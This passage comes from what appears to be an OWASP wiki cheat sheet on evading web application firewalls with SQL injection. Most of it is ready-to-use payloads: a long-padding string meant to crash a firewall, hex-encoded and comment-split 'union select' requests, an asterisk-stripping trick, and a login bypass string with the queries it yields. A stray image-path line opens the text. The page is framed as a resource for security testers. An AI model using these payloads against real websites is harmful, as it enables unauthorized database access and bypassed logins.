 ```
    http://www.site.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 “A”)..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4….

    You can test if the WAF can be crashed by typing:
    ?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4….

    If you get a 500, you can exploit it using the Buffer Overflow Method.
```

2\) Replace Characters with their HEX Values: We can replace some
characters with their HEX (URL-Encoded) Values.

    Example:
        http://www.site.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4….
        (which means “union select”)

4\) Misc Exploitable Functions: Many firewalls try to offer more
Protection by adding Prototype or Strange Functions\! (Which, of course,
we can exploit\!):

    Example:
        This firewall below replaces “*” (asterisks) with Whitespaces! What we can do is this:
        http://www.site.com/index.php?page_id=-15+uni*on+sel*ect+1,2,3,4…
        (If the Firewall removes the “*”, the result will be: 15+union+select….)
        So, if you find such a silly function, you can exploit it, in this way.

## Auth Bypass

If we need to bypass some admin panels, and we do that using or 1=1.

    Code:
    or 1-- -' or 1 or '1"or 1 or"

SELECT \* FROM login WHERE id=1 or 1-- -' or 1 or '1"or 1 or" AND
username='' AND password='' the "or 1-- -" gets active, make the
condition true and ignores the rest of the query. now lets check regular
string-

SELECT \* FROM login WHERE username=' or 1-- -' or 1 or '1"or 1 or" '
..... the "or 1" part make the query true, and the other parts are
considered as the comparison strings. same with the double quotes.
SELECT \* FROM login WHERE username=" or 1-- -' or 1 or '1"or 1 or" "

## Benchmark

Please use *' Benchmark*' and make you own SQLi Strings and test your
different test cases on
[Benchmark](https://www.owasp.org/index.php/Benchmark)

<hr>

*If you have any SQLi Quires which is Missed above Please help to
Contribute [Mail Down](https://www.owasp.org/index.php/Dhiraj_Mishra)
and be a part of **The Popular SQLi Evasion CheatSheet.***

## Contributor

Dhiraj Mishra (mishra.dhiraj@owasp.org)

[Category:Injection](Category:Injection "wikilink")
